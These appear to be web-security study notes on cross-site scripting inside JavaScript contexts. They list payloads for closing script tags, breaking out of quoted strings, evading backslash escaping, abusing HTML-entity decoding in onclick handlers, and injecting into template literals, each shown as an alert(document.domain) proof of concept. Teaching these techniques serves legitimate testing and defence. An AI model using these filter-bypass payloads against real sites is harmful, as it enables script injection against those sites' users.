 ```html
<script>
...
var input = 'controllable data here';
...
</script>
```

```html
<!-- Payload -->
</script><img src=1 onerror=alert(document.domain)>
```

***

**Breaking out of a JavaScript string**

* It's essential to repair the script following the XSS context, because any syntax errors there will prevent the whole script from executing

    ```javascript
    '-alert(document.domain)-'
    ';alert(document.domain)//
    ```

* Some applications try to escape single quote characters with a backslash but often forget to escape the backslash itself.
  * `';alert(document.domain)//` is converted to `\';alert(document.domain)//`&#x20;
  * so your input could be `\';alert(document.domain)//` which gets converted to `\\';alert(document.domain)//`
* Making use of HTML-encoding
  * When the XSS context is some existing JavaScript within a quoted tag attribute, such as an event handler, it is possible to make use of HTML-encoding to work around input filters.
    * `<a href="#" onclick="... var input='controllable data here'; ...">`
    * `&apos;-alert(document.domain)-&apos;`
    * The browser HTML-decodes the value of the onclick attribute before the JavaScript is interpreted
    * HTML encode: https://html.spec.whatwg.org/multipage/named-characters.html

  > **Note**: You cannot use `&quot;` -> `"` to close onclick attribute. Remember: The browser HTML-decode the value of the onlick attribute but not the entire structure.
   
* XSS in JavaScript template literals
  * JavaScript template literals are string literals that allow embedded JavaScript expressions (Template literals are encapsulated in backticks)

    ```html
    <script>
    ...
    var input = `controllable data here`;
    ...
    </script>
    ${alert(document.domain)}
    ```

---
